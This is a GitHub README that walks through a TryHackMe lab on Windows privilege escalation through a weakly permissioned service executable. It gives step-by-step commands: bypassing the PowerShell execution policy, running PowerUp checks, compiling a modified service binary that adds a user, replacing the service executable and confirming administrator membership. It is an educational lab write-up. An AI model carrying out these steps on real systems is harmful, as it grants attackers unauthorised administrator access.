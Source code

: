 # service-escalation-executable-files

*credit to THM* | https://tryhackme.com/room/windowsprivescarena

1) Start PowerShell:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> powershell -ep bypass`

2) Run *PowerUp.ps1*:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> . ./PowerUp.ps1`
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`PS C:\Users\user> Invoke-AllChecks`

* Note that the 'Everyone' user group has full permissions on the 'filepermservice.exe' service executable.

3) Start *pyftpdlib* on Kali:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ python3 -m pyftpdlib -p 21 --write`

* Note: if pyftpdlib is not installed do the following:

[![Image of install](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/install.png)](#)

4) Copy *windows_service.c* from windows machine:

[![Image of ftp](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/ftp.png)](#)

* Observe *windows_service.c* was received by the FTP server on Kali

[![Image of upload](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/upload.png)](#)

5) Edit *windows_service.c* to include the command to add a new user:

[![Image of edit](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/edit.png)](#)

6) Compile *windows_service.c*:

[![Image of compile](https://github.com/kam1n0/service-escalation-registry/blob/master/tmp_upload/compile.png)](#)

* Note: install *gcc-wingw-w64* if it is not installed

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`$ sudo apt-get install gcc-mingw-w64`

7) Transfer *filepermservice.exe* to windows victim machine:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user> get filepermservice.exe`

8) Copy *filepermservice.exe* to C:\Program Files\File Permissions Service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> cp filepermservice.exe C:\Program Files\File Permissions Service`

9) Start *filepermsvc* service:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> sc start filepermsvc`

10) Confirm that the user was added to the local administrators group by typing the following:

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;`C:\Users\user\Desktop> net localgroup administrators`

